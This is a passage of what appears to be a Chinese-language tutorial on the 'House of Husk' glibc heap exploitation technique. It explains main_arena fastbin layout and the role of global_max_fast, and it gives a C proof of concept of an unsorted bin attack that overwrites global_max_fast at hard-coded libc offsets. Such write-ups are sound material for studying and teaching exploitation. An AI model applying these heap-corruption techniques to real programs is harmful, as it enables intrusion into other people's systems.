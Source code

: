 ![image-20220305145854147](../assets/2022-02-22-house_of_husk/image-20220305145854147.png)

查看 main_arena 可以看到，0x30 和 0x40 的 fastbin chunk 指针分别在 main_arena+0x18 和 main_arena+0x20。

推导出正常的 fastbin 指针在 `main_arena+chunk_size/0x10*0x8`。

fastbin size 最大值存储在 `global_max_fast` 变量中，一般设置为 0x80，也就是小于 0x80 的 chunk 在 tcache bin 满了之后会存储到 fastbin 中。如果被修改为更大的值，那么在 free 的时候就能将指针填充到 main_arena 以及后面的内存中。

### Unsorted bin attack

用于将任意地址覆盖为一个较大的值。

```c
#include <stdio.h>
#include <stdlib.h>

#define offset2size(ofs) ((ofs)*2 - 0x10)
#define MAIN_ARENA      0x3ebc40
#define GLOBAL_MAX_FAST 0x3ed940
#define OFFSET          0x3ecff0

int main()
{
    char* a[2];
    unsigned long libc_base = &puts - 0x80970;

    a[0] = malloc(0x500);
    a[1] = malloc(offset2size(OFFSET - MAIN_ARENA));
    printf("%p\n", a[1]);
    free(a[0]);
    *(unsigned long*)(a[0] + 8) = libc_base + GLOBAL_MAX_FAST - 0x10;
    a[0] = malloc(0x500);

    free(a[1]);

    printf("0x%lx\n", *(unsigned long *)(libc_base + OFFSET));
    return 0;
}
```
